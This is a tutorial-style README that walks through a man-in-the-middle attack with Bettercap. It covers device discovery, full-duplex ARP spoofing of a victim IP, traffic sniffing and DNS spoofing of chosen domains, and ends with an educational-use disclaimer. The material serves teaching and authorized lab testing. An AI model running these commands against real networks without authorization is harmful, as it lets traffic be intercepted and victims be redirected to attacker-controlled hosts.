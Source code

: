 # ARP Spoofing using Bettercap for MITM Attack

## Overview

This project demonstrates how to perform a Man-in-the-Middle (MITM) attack using **Bettercap** through ARP spoofing. The goal is to intercept and manipulate network traffic between a victim device and the router. This attack showcases how ARP spoofing can be used for network sniffing and DNS spoofing.

## Tools and Technologies

- **Bettercap**: A powerful, flexible tool for network monitoring and attacks.
- **ARP Spoofing**: Redirect network traffic by pretending to be the router or another device in the network.
- **DNS Spoofing**: Redirect specific domain requests to a designated IP address.
- **Network Sniffing**: Capturing and viewing real-time network traffic.

## Steps to Perform ARP Spoofing with Bettercap

1. **Install Bettercap**: Make sure Bettercap is installed on your system.

   ```bash
   sudo apt install bettercap
   ```

2. **Start Bettercap**: Launch Bettercap’s command-line interface (CLI).

   ```bash
   sudo bettercap
   ```

3. **Discover Devices in the Network**:

   - Turn on network probing to find devices on the network.

   ```bash
   net.probe on
   ```

   - View the discovered devices.

   ```bash
   net.show
   ```

4. **Enable Full Duplex Mode for ARP Spoofing**:

   - Enable full-duplex ARP spoofing to act as a relay between the victim and the router.

   ```bash
   set arp.spoof.fullduplex true
   ```

5. **Set Target Device**:

   - Set the victim’s IP address as the target (replace `192.168.1.7` with the target's IP address).

   ```bash
   set arp.spoof.targets 192.168.1.7
   ```

6. **Activate ARP Spoofing**:

   - Begin ARP spoofing to intercept network traffic.

   ```bash
   arp.spoof on
   ```

7. **View Real-Time Network Traffic**:
   - Enable network sniffing to monitor live traffic.
   ```bash
   net.sniff on
   ```

## DNS Spoofing (Optional)

If you want to redirect the victim’s traffic to a specific IP address, you can perform DNS spoofing as well.

1. **Set DNS Spoofing Address**:

   - Redirect DNS queries to the desired IP address (replace `<IP>` with the target IP).

   ```bash
   set dns.spoof.address <IP>
   ```

2. **Set Domains for Spoofing**:

   - Specify which domain(s) to spoof (e.g., `example.com`).

   ```bash
   set dns.spoof.domains <URL>
   ```

3. **Activate DNS Spoofing**:
   ```bash
   dns.spoof on
   ```

## Disclaimer

This project is for educational purposes only. Unauthorized use of ARP or DNS spoofing may be illegal and is not permitted without explicit permission. Always ensure you have the proper authorization before conducting such tests.

## References

- [Bettercap Documentation](https://www.bettercap.org/docs/)
- [ARP Spoofing Explained](https://www.varonis.com/blog/arp-spoofing)
